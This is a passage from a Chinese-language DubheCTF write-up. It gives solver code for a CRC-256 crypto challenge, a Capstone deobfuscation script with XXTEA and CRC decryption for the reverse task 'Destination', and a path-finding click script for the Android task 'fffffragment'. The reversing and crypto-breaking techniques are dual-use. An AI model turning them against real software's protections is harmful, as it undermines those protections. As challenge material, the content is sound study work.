s2 = s[s.index("=")+3:s.index("=")+3+64]

alphabet = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'
def getdigest(content):
    return  hashlib.sha256(str(content).encode('utf-8')).hexdigest()
def proof():
    for a in alphabet:
        for b in alphabet:
            for c in alphabet:
                for d in alphabet:
                    string=a+b+c+d+s1
                    if getdigest(string)==s2:
                        s3 = a+b+c+d
                        p.send(s3.encode('utf-8'))
                        return
proof()
for i in range(4):
    p.recvline()
    
def cal_crc():
    p.sendline(b"1")
    p.recvline()

en_flag = ""   
def getflag():
    p.sendline(b"2")
    s = p.recvline().strip().decode()
    
    en_flag = s[s.index(":")+2:]
    return en_flag

en_flag = getflag()

for i in range(4):
    p.recvline()

cal_crc()
p.sendline((b"\x00"*42))
s = p.recvline().strip().decode()
c0 = int(s[s.index(":")+2:],16)

for i in range(4):
    p.recvline()
cal_crc()
p.sendline((b"\x00"*41+b"\x80"))
s = p.recvline().strip().decode()
c1 = int(s[s.index(":")+2:],16)

print(c0)
print(c1)
print(en_flag)
```

构造 msg0 和 msg1 只有最后一个分组的第一个 bit 不同，得到 c0，c1，从而 poly = c0^c1

```python
from Crypto.Util.number import *

m0 = b"\x00"*42
m1 = b"\x00"*41+b"\x80"
c0 = 68104498911727639499340254606523493930102648105500963619397213393125520394000
c1 = 29104887385825837380588405834851838406454422374583577538322731661270800039613
en_flag = 0xd7b8cb88969fe9248f6a80068075cdbca33b6b6944af980bf74814042820e126
poly = c0^^c1
POLY = poly
K2.<y> = PolynomialRing(GF(2))
poly = K2(list(bin(poly)[2:]))
F2.<x> = K2.quotient(y^256+poly)


def K(f):
    x = bytes_to_long(int(''.join([str(i) for i in list(f)]),2).to_bytes(32,'big'))
    while 1:
        if x % 256 == 0:
            x //= 256
        else:
            break
    return x

def F(i):
    return F2(list(bin(i)[2:].zfill(256)))
    

def decrypt(enc,s):
    return (long_to_bytes(K(F(int(enc.hex(),16))/x^256-s)))       
    
def crc256(msg,IN,OUT,POLY):
    crc = IN
    C = []
    for b in msg:
        crc ^^= b
        for _ in range(8):
            crc = (crc >> 1) ^^ (POLY & -(crc & 1))
    return  long_to_bytes(crc ^^ OUT)

def inv_crc(crc):
    if bin(crc)[2:].zfill(256)[0] == '1':
        crc = crc ^^ POLY
        crc = (crc<<1)+1
    else:
        crc = crc << 1
    return crc

def inv_crc256(msg,end, poly = POLY):
    crc = end
    for b in msg[::-1]:
        for _ in range(8):
            crc = inv_crc(crc)
            
        crc ^^= b
    return crc

c = F2(list(bin(c0)[2:].zfill(256))) - F2(list(bin(bytes_to_long(crc256(m0,0,0,POLY)))[2:].zfill(256)))
en_flag = en_flag^^K(c)
en_flag = inv_crc256(b'}',en_flag)
m = b'DubheCTF{'
s = F(bytes_to_long(crc256(m,0,0,POLY)))
flag = b'DubheCTF{'+decrypt(long_to_bytes(en_flag),s)[::-1]+b'}'

print(flag)
```

# Reverse

## Destination

PE32

有反调试




main 函数逻辑简单，这里__debugbreak 是使用 int 3 指令触发异常处理


实际调用 sub_4140D7。这个函数有一坨垃圾代码


具体如上图。

以 `call; add; retn` 为一组的代码没有任何实际作用（或等效于 nop），可以直接删去。

以 `jz; jnz` 为一组的代码总是跳转到相同位置，可以用 jmp 替代。

考虑使用 capstone+ 模式匹配 自动化 patch

```python
from capstone import *
import re

if __name__ == '__main__':
    md = Cs(CS_ARCH_X86, CS_MODE_32)

    raw_file = 'Destination.exe'
    raw_file_io = open(raw_file, 'rb')

    log_file = 'dest.log'
    log_file_io = open(log_file, 'w')

    seg_base = 0x411000-0x400
    addr_start = 0x004140D7
    addr_end = 0x00417150

    def read_code_bytes(addr : int, size : int) -> bytes:
        raw_file_io.seek(addr - seg_base)
        return raw_file_io.read(size)

    def showasm(addr_start, addr_end):
        size = addr_end - addr_start + 1
        if size <= 0:
            return
        
        for item in md.disasm(read_code_bytes(addr_start, size), addr_start):
            print(hex(item.address), item.mnemonic, item.op_str)
    
    def get_next_asm(addr : int) -> tuple[str, str, int]:
        item = next(md.disasm(read_code_bytes(addr, 0x10), addr))
        return (item.mnemonic, item.op_str, addr + item.size)

    # showasm(addr_start, addr_start+0x100)
    # showasm(0x00416370, 0x0041637D)

    # exit()

    junk_call_set = set()
    je_jne_set = {}

    task_set = set()
    task_set.add(addr_start)
    task_completed_set = set()

    def print_and_log(s : str):
        print(s)
        log_file_io.write(s)
        log_file_io.write('\n')

    def run_task(addr_cur):
        current_task = addr_cur
        print_and_log('task start %s' % hex(current_task))
        while addr_cur < addr_end:
            str_com, str_op, addr_next = get_next_asm(addr_cur)

            addr_jmp = addr_next
            go_next = True

            if str_com == 'jmp':
                addr_jmp = int(str_op, base=16)
                go_next = False
            elif str_com == 'call':
                if int(str_op, base=16) == addr_cur + 5:    #junk call
                    # skip check
                    junk_call_set.add(addr_cur)
                    addr_jmp = addr_cur + 0x0a
                    go_next = False
            elif str_com == 'je':
                _com, _op, _ = get_next_asm(addr_next)
                if _com == 'jne' and _op == str_op:
                    # je jne
                    _jmp_dest = int(str_op, base=16)
                    je_jne_set[addr_cur] = _jmp_dest
                    addr_jmp = _jmp_dest
                    go_next = False
            elif str_com.startswith('ret'):
                print_and_log('end by ret')
                break

            if go_next and str_com.startswith('j') and str_com != 'jmp':
                _str = ' '.join([hex(addr_cur), str_com, str_op])
                print_and_log(_str)

                task_set.add(addr_next)
                task_set.add(int(str_op, base=16))
                task_completed_set.add(current_task)
                print_and_log('task end %s' % hex(current_task))
                break   # task end

            if go_next:
                _str = ' '.join([hex(addr_cur), str_com, str_op])
                print_and_log(_str)
                addr_cur = addr_next
            else:
                addr_cur = addr_jmp

        if addr_cur >= addr_end:
            print_and_log('out of addr_end')
    
    while len(task_set) > 0:
        _task = task_set.pop()
        if _task not in task_completed_set:
            run_task(_task)

    log_file_io.close()
```

junk 代码部分尚未导出！

`junk_call_set` 保存 call 组合的地址

`je_jne_set` 保存 jz 组合的地址相应跳转地址

```python
task start 0x4140d7
0x4140d7 push ebp
0x414afe mov ebp, esp
0x416360 sub esp, 0x10c
0x4143a6 push ebx
0x415aff push esi
0x414de7 push edi
0x41529d mov dword ptr [ebp - 8], 0x32
0x4161df mov dword ptr [ebp - 0x44], 0
0x41536d mov eax, 4
0x414f9b imul ecx, eax, 0xb
0x414183 mov edx, dword ptr [ecx + 0x4234a8]
0x41589f mov dword ptr [ebp - 0x38], edx
0x415442 mov eax, dword ptr [ebp - 0x44]
0x4141ea sub eax, 0x5b4b9f9e
0x415091 mov dword ptr [ebp - 0x44], eax
0x414545 mov eax, dword ptr [ebp - 0x44]
0x4146bd shr eax, 2
0x4160d9 and eax, 3
0x414231 mov dword ptr [ebp - 0x20], eax
0x415e62 mov dword ptr [ebp - 0x14], 0
0x415ec6 cmp dword ptr [ebp - 0x14], 0xb
0x414e38 jae 0x416302
task end 0x4140d7
task start 0x416302
0x416302 mov eax, 4
0x41612e imul ecx, eax, 0
0x416712 mov edx, dword ptr [ecx + 0x4234a8]
0x4159f7 mov dword ptr [ebp - 0x2c], edx
0x416175 mov eax, 4
0x4165e1 imul ecx, eax, 0xb
0x4150ee mov edx, dword ptr [ebp - 0x38]
0x41578a shr edx, 5
0x414ed7 mov eax, dword ptr [ebp - 0x2c]
0x415146 shl eax, 2
0x4163b1 xor edx, eax
0x4147a4 mov eax, dword ptr [ebp - 0x2c]
0x414b43 shr eax, 3
0x4151c2 mov esi, dword ptr [ebp - 0x38]
0x414114 shl esi, 4
0x41583a xor eax, esi
0x4148df add edx, eax
0x4145b8 mov eax, dword ptr [ebp - 0x44]
0x41648b xor eax, dword ptr [ebp - 0x2c]
0x414932 mov esi, dword ptr [ebp - 0x14]
0x414d29 and esi, 3
0x415d44 xor esi, dword ptr [ebp - 0x20]
0x415b41 mov esi, dword ptr [esi*4 + 0x42309c]
0x415721 xor esi, dword ptr [ebp - 0x38]
0x41653f add eax, esi
0x4157cc xor edx, eax
0x415227 mov ecx, dword ptr [ecx + 0x4234a8]
0x4153e3 add ecx, edx
0x415fd1 mov dword ptr [ebp - 0x10c], ecx
0x416411 mov edx, 4
0x414662 imul eax, edx, 0xb
0x41434a mov ecx, dword ptr [ebp - 0x10c]
0x4143f8 mov dword ptr [eax + 0x4234a8], ecx
0x414a3e mov edx, dword ptr [ebp - 0x10c]
0x415bb5 mov dword ptr [ebp - 0x38], edx
0x414ba5 mov eax, dword ptr [ebp - 8]
0x414453 sub eax, 1
0x415c1f mov dword ptr [ebp - 8], eax
0x4144a5 jne 0x415442
task end 0x416302
task start 0x4144ab
0x414c0a mov eax, 1
0x414c59 pop edi
0x4154b9 pop esi
0x415c71 pop ebx
0x415cd1 add esp, 0x10c
0x415d91 mov esp, ebp
0x415e22 pop ebp
end by ret
task start 0x414e3e
0x414f4e mov eax, dword ptr [ebp - 0x14]
0x4142cf mov ecx, dword ptr [eax*4 + 0x4234ac]
0x414993 mov dword ptr [ebp - 0x2c], ecx
0x4156c3 mov eax, dword ptr [ebp - 0x38]
0x416236 shr eax, 5
0x41629e mov ecx, dword ptr [ebp - 0x2c]
0x416076 shl ecx, 2
0x41663c xor eax, ecx
0x414a97 mov edx, dword ptr [ebp - 0x2c]
0x415f57 shr edx, 3
0x414814 mov ecx, dword ptr [ebp - 0x38]
0x415f19 shl ecx, 4
0x414d7b xor edx, ecx
0x415ddd add eax, edx
0x4145fa mov edx, dword ptr [ebp - 0x44]
0x415002 xor edx, dword ptr [ebp - 0x2c]
0x41504a mov ecx, dword ptr [ebp - 0x14]
0x4154ff and ecx, 3
0x41591a xor ecx, dword ptr [ebp - 0x20]
0x4155c5 mov ecx, dword ptr [ecx*4 + 0x42309c]
0x414e97 xor ecx, dword ptr [ebp - 0x38]
0x414cb7 add edx, ecx
0x41658b xor eax, edx
0x4166ab mov edx, dword ptr [ebp - 0x14]
0x41598c mov ecx, dword ptr [edx*4 + 0x4234a8]
0x4149eb add ecx, eax
0x416026 mov dword ptr [ebp - 0x10c], ecx
0x415ab8 mov edx, dword ptr [ebp - 0x14]
0x414730 mov eax, dword ptr [ebp - 0x10c]
0x415617 mov dword ptr [edx*4 + 0x4234a8], eax
0x415300 mov ecx, dword ptr [ebp - 0x10c]
0x41487f mov dword ptr [ebp - 0x38], ecx
0x415a5f mov eax, dword ptr [ebp - 0x14]
0x4164f8 add eax, 1
0x414287 mov dword ptr [ebp - 0x14], eax
0x415ec6 cmp dword ptr [ebp - 0x14], 0xb
0x414e38 jae 0x416302
task end 0x414e3e
task start 0x415442
0x415442 mov eax, dword ptr [ebp - 0x44]
0x4141ea sub eax, 0x5b4b9f9e
0x415091 mov dword ptr [ebp - 0x44], eax
0x414545 mov eax, dword ptr [ebp - 0x44]
0x4146bd shr eax, 2
0x4160d9 and eax, 3
0x414231 mov dword ptr [ebp - 0x20], eax
0x415e62 mov dword ptr [ebp - 0x14], 0
0x415ec6 cmp dword ptr [ebp - 0x14], 0xb
0x414e38 jae 0x416302
task end 0x415442
```

获得上面的反汇编代码。可以直接分析。看起来又是 tea 加密

上面的是标准的 xxtea 算法，delta 为 `-0x5b4b9f9e`（因为是 sum 减去 0x5b4b9f9e），轮数固定为 50（0x32）

如下结论由动调得知，不考虑反调误导的情况下

有三段加密，两段 xxtea 跑的是同一处代码段。密钥同为 uint32_t const key[4] = { 0x6B0E7A6B, 0xD13011EE, 0xA7E12C6D, 0xC199ACA6 };delta=0xA4B46062，rounds=50 循环 50 次加密。剩下一次加密未知。


看起来很奇怪的 crc 算法

这个加密是猜出来的，通过调试输入测试样例对照结果。

下面的 enc 和 dec 是 xxtea 的加解密。

```python
import struct

inp = '111122223333444455556666777788889999111122223\0\0\0'
assert(len(inp) == 48)

key = [1796110955, 3509588462, 2816552045, 3248073894]

ans_raw = [  0xD6, 0xFA, 0x90, 0xA7, 0x77, 0xA2, 0xC8, 0xE8, 0xFA, 0x84, 
    0x03, 0xCF, 0xD7, 0x7F, 0x6C, 0x2E, 0x8B, 0x96, 0x33, 0x6D, 
    0x27, 0xC2, 0x57, 0x5B, 0x5E, 0xA6, 0x3C, 0x65, 0xFC, 0xF1, 
    0xC6, 0x85, 0x77, 0x25, 0xF3, 0xE1, 0x76, 0xAE, 0xD7, 0xD4, 
    0xC4, 0x6D, 0xAF, 0x3F, 0x8C, 0x9D, 0x59, 0x0D]
ans = [2811296470, 3905462903, 3473114362, 778862551, 1832097419, 1532477991, 1698473566, 2244407804, 3790808439, 3570904694, 1068461508, 223976844]

sample = []
t = inp.encode()
for i in range(12):
    sample.append(int.from_bytes(t[i*4:i*4+4], 'little'))

print(sample)

def enc(inp:list, key):
    rounds = 0x32
    raw = inp.copy()
    delta = 0x5b4b9f9e
    a1 = raw[11]    # var_38
    a2 = raw[1]     # var_2c
    s = (0 - delta) & 0xffffffff    # var_44
    for j in range(rounds): # j:var_8
        # print('enct', b''.join([int.to_bytes(x, 4, 'little') for x in raw]))
        e = (s >> 2) & 3    # var_20
        for i in range(11): # i:var_14

            a2 = raw[i + 1]
            t1 = ((a1 >> 5) ^ (a2 << 2)) + ((a2 >> 3) ^ (a1 << 4))  #eax line 89
            t2 = (s ^ a2) + (key[(i & 3) ^ e] ^ a1)    #edx line 97
            out = raw[i] + (t1 ^ t2)
            out &= 0xffffffff
            raw[i] = out
            a1 = out

        # (s >> 2) & 3    # var_20
        a2 = raw[0]
        t1 = ((a1 >> 5) ^ (a2 << 2)) + ((a2 >> 3) ^ (a1 << 4))   #edx    line 42
        t2 = (s ^ a2) + (key[(11 & 3) ^ e] ^ a1)     #eax    line 50
        out = raw[11] + (t1 ^ t2)   # line 54
        out &= 0xffffffff
        raw[11] = out
        a1 = out

        # print('enc', s, raw)
        s = (s - delta) & 0xffffffff

    # print('enct', b''.join([int.to_bytes(x, 4, 'little') for x in raw]))
    return raw

def dec(inp, key):
    rounds = 0x32
    raw = inp.copy()
    delta = 0x5b4b9f9e
    a1 = raw[10]
    a2 = raw[0]
    s = (-delta * rounds) & 0xffffffff
    for j in range(rounds):
        e = (s >> 2) & 3    # var_20
        # print('dec', s, raw)
        for i in range(11, 0, -1):
            a1 = raw[i - 1]
            t1 = ((a1 >> 5) ^ (a2 << 2)) + ((a2 >> 3) ^ (a1 << 4))  #eax line 89
            t2 = (s ^ a2) + (key[(i & 3) ^ e] ^ a1)    #edx line 97
            out = raw[i] - (t1 ^ t2)
            out &= 0xffffffff
            raw[i] = out
            a2 = out

        a1 = raw[11]
        t1 = ((a1 >> 5) ^ (a2 << 2)) + ((a2 >> 3) ^ (a1 << 4))   #edx    line 42
        t2 = (s ^ a2) + (key[(0 & 3) ^ e] ^ a1)     #eax    line 50
        out = raw[0] - (t1 ^ t2)   # line 54
        out &= 0xffffffff
        raw[0] = out
        a2 = out
        
        s = (s + delta) & 0xffffffff

    return raw

def crc_enc(inp):
    for i in range(32):
        if inp >> 31 != 0:
            inp = (inp << 1) ^ 0x84A6972F
        else:
            inp = inp << 1
        inp &= 0xffffffff
    return inp

def crc_dec(inp):
    for i in range(32):
        if inp & 1:
            inp = ((inp ^ 0x84A6972F) >> 1) | 0x80000000
        else:
            inp = inp >> 1
    return inp

res = enc(sample, key)
res = enc(res, key)
print('before crc', res)
res = list(map(crc_enc, res))

print(b''.join([int.to_bytes(x, 4, 'little') for x in res]))

res2 = list(map(crc_dec, res))
print('after crc', res)
res2 = dec(res2, key)
res2 = dec(res2, key)
print(res2)

print('\ndec flag')
res3 = list(map(crc_dec, ans))
res3 = dec(res3, key)
res3 = dec(res3, key)

flag = b''.join([int.to_bytes(x, 4, 'little') for x in res3])
print(flag)
```

## fffffragment

点击按钮,会进入下一个 fragment,直到到达成功的 fragment 为止

jadx 保存项目,python 正则匹配可以找到到达 congratulations 的路径,鼠标模拟点击一下就可以了

```python
import os
import re
from pymouse import PyMouse
import time
def s(val):
    global dic,path
    for k in dic:
        if dic[k]["L"]==val:
            path+="L"
            return k
        elif dic[k]["R"]==val:
            path+="R"
            return k


dic={}
path = ""
m=PyMouse()
pattern = r", (\w+?)\.class"
for root, dirs, files in os.walk("p013II111"):
    for file in files:
        with open(os.path.join(root, file),"r",encoding='utf-8') as f:
            tree = file.split('.')[0]
            java = f.read()
            cls = re.findall(pattern,java)
            if len(cls)==2:
                dic[tree]={}
                click=re.findall(rf"{tree}.(\w+)\({tree}\.this", java)
                t={}
                java = java.splitlines()
                l=0
                r=0
                for i in range(len(java)):
                    if "void d(" in java[i]:
                        if "f(" in java[i+1]:
                            t['d']=cls[0]
                        else:
                            t['d']=cls[1]
                    elif "void e(" in java[i]:
                        if "f(" in java[i+1]:
                            t['e']=cls[0]
                        else:
                            t['e']=cls[1]

                if file=="C0106Oo0o0.java":
                    dic[tree]['L'] = 'l00'
                    dic[tree]['R'] = 'y6'
                else:
                    dic[tree]['L'] = t[click[0]]
                    dic[tree]['R'] = t[click[1]]
            else:
                print(f"find toast at {tree}")
print(dic)

win = "ch0"
path_list = ["ch0"]
while win!="C0106Oo0o0":
    win=s(win)
    path_list.append(win)
path = path[::-1]
path_list = path_list[::-1]
print(path)

#time.sleep(2)
#print(m.position())
#模拟点击
exit(-1)
print("开始"+path_list[0])
for i in range(len(path)):
    if path[i]=="L":
        print(f"{i}点左边的按钮,进入{path_list[i+1]}")
        m.click(1146, 442,1)
    elif path[i]=="R":
        print(f"{i}点右边的按钮,进入{path_list[i+1]}")
        m.click(1375, 450,1)
    time.sleep(0.2)
```
